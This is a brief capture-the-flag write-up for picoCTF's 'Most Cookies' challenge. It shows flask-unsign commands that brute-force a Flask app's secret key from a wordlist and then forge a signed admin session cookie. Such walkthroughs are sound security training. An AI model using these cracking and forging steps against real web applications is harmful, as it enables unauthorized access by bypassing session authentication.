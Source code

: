# Most Cookies

Observing the source key, we find that:

- There's a list of cookie names, from which one is chosen as app secret.
- `/search`ing stores the name as session cookie "very_auth:name", which if present in the above list redirects to `/display`
- To get the flag we need to have cookie as "very_auth:admin", but this is not in the cookie name list, so the redirection doesn't happen

Try to get the secret key using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign):

```shell
flask-unsign --unsign --server 'http://mercury.picoctf.net:44693/' --wordlist cookie_list.txt
```

Create a signed cookie:

```shell
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret '<secret>'
```

Now, go to `/display`, edit the session cookie and reload
